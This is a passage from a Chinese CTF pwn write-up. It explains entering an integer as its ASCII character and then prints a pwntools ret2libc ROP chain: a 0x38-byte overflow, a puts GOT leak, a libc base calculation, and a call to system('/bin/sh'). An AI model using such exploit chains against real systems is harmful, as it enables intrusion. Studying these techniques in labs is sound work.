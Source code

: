 这里 v6 在程序中储存的是整数，所以这里要输入当前整数对应的 ASCII 字符 (chr)，这样在程序中储存的值大小就一样  
如果不理解，可以在 gdb 里面看一眼，这里我们就输入了个'a\\n'  
[![](assets/1708654729-7e1ceb8b567b91d0acfc9f463a2eac58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012156-8bfb7e52-d014-1.png)  
这里看到是这样比较的

[![](assets/1708654729-9166648d6eeb91d6ec4747b31fefeb91.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012203-90216f00-d014-1.png)  
其实就是比较的 ASCII 码值  
之后就是写 rop 链了

```plain
pl='a'*0x38+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(0x40125D)
sl(pl)
puts_addr=u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-libc.symbols['puts']
leak('libc_base ',libc_base)

system = libc_base + libc.symbols['system']
binsh = libc_base + next(libc.search(b"/bin/sh\x00"))

pl=b'a'*0x38 + p64(ret) + p64(rdi) +p64(binsh) + p64(system)
sl(pl)
```

[![](assets/1708654729-8e70eda8dac4aeffeeca5de9974fff58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012217-98e5c672-d014-1.png)
